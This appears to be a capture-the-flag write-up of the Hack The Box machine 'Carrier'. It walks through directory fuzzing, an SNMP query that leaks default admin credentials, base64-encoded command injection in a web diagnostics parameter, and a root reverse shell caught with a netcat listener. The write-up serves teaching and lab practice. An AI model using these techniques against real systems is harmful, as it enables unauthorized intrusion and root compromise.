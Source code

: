 .
#### Background
Carrier is a retired vulnerable VM from Hack. This box is really fun since it allows us to play with some BGP Hijacking which i have not seen from any challenges i solved so far.


To begin the enumeration process, a TCP/UDP port scan was run against the target using nmap. The purpose of scan is to quickly determine which ports are open and which services are running. 

##### OS Information:
Based on the Apache version, it looks like we are dealing with Xenial / Ubuntu 16.04 based system.

###### Open Ports:
In addition to usual ports, 22 and 80 UDP port 161 is open. UDP 161 is the standard SNMP port.There is also a filtered ftp port showing.

![source-01](/img/Screenshot_2020-05-27_16-31-11.png){: .align-left}
Browsing to the site we see a login page with weird error messeges (Error 45007 and Error 45009). Lets start directory enumeration.

```python
➜  carrier wfuzz --hc=404 -z file,/usr/share/wordlists/dirb/common.txt http://10.10.10.105/FUZZ

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.105/FUZZ
Total requests: 4614

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                              
===================================================================

000000001:   200        63 L     105 W    1509 Ch     ""                                                                                                   
000000011:   403        11 L     32 W     291 Ch      ".hta"                                                                                               
000000012:   403        11 L     32 W     296 Ch      ".htaccess"                                                                                          
000000013:   403        11 L     32 W     296 Ch      ".htpasswd"                                                                                          
000001114:   301        9 L      28 W     310 Ch      "css"                                                                                                
000001196:   301        9 L      28 W     312 Ch      "debug"                                                                                              
000001313:   301        9 L      28 W     310 Ch      "doc"                                                                                                
000001648:   301        9 L      28 W     312 Ch      "fonts"                                                                                              
000001998:   301        9 L      28 W     310 Ch      "img"                                                                                                
000002021:   200        63 L     105 W    1509 Ch     "index.php"                                                                                          
000002179:   301        9 L      28 W     309 Ch      "js"                                                                                                 
000003588:   403        11 L     32 W     300 Ch      "server-status"                                                                                      
000004087:   301        9 L      28 W     312 Ch      "tools"                                                                                              


```

The directory enumeration reveals an interesting directory /doc which contains a network diagram and a usermanual.

Network diagram showing 3 different BGP autonomous systems.

>BGP is the protocol that makes the Internet work. It does this by enabling data routing on the Internet.BGP is responsible for looking at all of the available paths that data could travel and picking the best route, which usually means hopping between autonomous systems. 

![source-01](/img/diagram_for_tac.png){: .align-left}

Lyghtspeed networks AS 100 is connected to two other networks, AS 200 and AS 300.

Document Manual 

![source-01](/img/Screenshot_2020-05-27_16-49-23.png){: .align-left}

The “error_codes.pdf” contains explanations for different error codes, the weird error codes we saw earlier on webpage. One of those are 45009, which states that the admin still uses default credentials which are set to a “chassis serial number”

After further enumeration, i coudnt find the chassis serial number, so decided to move on and check SNMP service.

#### SNMP Enumeration:
```python

➜  carrier snmpwalk -c public 10.10.10.105 -v 1
Created directory: /var/lib/snmp/mib_indexes
iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
End of MIB
```

Yes this look like the serial number we are looking for. Lets try to log in with credentials (admin:NET_45JDX23)

![source-01](/img/Screenshot_2020-05-27_17-08-58.png){: .align-left}

Ticket tab:

After going through the webpage.The ticket number 6 give us some information about VIP is having issues connecting by FTP to an important server in the 10.120.15.0/24 network, investigating... This might be important to us later !

![source-01](/img/Screenshot_2020-05-27_17-17-26.png){: .align-left}

Checking diag page:

![source-01](/img/Screenshot_2020-05-27_17-23-45.png){: .align-left}

Look like the server might be running “ps” command.


> Quagga is a routing software suite, providing implementations of OSPFv2, OSPFv3, RIP v1 and v2, RIPng and BGP-4 for Unix platforms, particularly FreeBSD, Linux, Solaris and NetBSD. Quagga is a fork of GNU Zebra which was developed by Kunihiro Ishiguro.

Exploitation:

Lets explore the web app further behavior in the burp suite. We can see check=some based64 encoded chars its sending.

![source-01](/img/Screenshot_2020-05-27_17-38-09.png){: .align-left}

Lets decode it and see what it is.

![source-01](/img/Screenshot_2020-05-27_17-39-13.png){: .align-left}

Decoding the base64 reveals it is sending the word quagga, And the web application is showing all the process that contains the string “quagga”. So that means the web application is maybe running “ps” with “grep quagga” command. Lets explore this futher and see if we can inject our own command to it and send. 

By changing the parameter to “id” and then encoding it with base64 encode and forward the request to the server.

![source-01](/img/Screenshot_2020-05-27_17-41-07.png){: .align-left}

And it works, we have command injection and it shows as root !!. It is even possible to get user.txt file before getting a reverseShell.

#### Exploitation:

Lets get a reverse shell back to our attacker machine for further exploitation.
I am going to send a simple bash shell encoded in base 64

![source-01](/img/Screenshot_2020-05-27_18-36-08.png){: .align-left}

Send the command inside the POST request via the check parameter. After executing it got a reverse Shell as root, but root flag is not here.

```python

➜  carrier nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.10.105] 51560
bash: cannot set terminal process group (2323): Inappropriate ioctl for device
bash: no job control in this shell
root@r1:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@r1:~# ls
ls
test_intercept.pcap
user.txt
root@r1:~# cat user.txt
```




